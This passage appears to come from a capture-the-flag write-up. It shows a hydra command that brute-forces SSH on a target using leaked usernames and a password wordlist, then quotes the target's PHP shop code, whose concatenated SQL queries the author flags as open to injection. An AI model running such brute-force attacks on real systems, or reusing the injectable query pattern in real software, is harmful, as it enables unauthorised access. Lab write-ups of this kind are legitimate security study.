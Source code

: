 ```php
```

Some creds here! Since there’s an ssh service listening let’s start hydra in the background (Doesn’t end up finding anything).

```BASH
$ cat etc_passwd | grep sh$ | awk -F ':' '{print $1}' | tee loot/leakedUsers
root
rektsu

$ cat loot/leakedPass /opt/SecLists/Passwords/darkweb2017-top10000.txt  > /tmp/wordlist
$ hydra -L loot/leakedUsers -P /tmp/wordlist $TARGET ssh
```

```php
/var/www/data/html/shop/product.php

<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>

 ... snip ...
```

This looks interesting. The id field after some filtering goes into a prepared query but just as the comment states it does not prevent sql injection.

```php
/var/www/data/html/cart.php

<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
```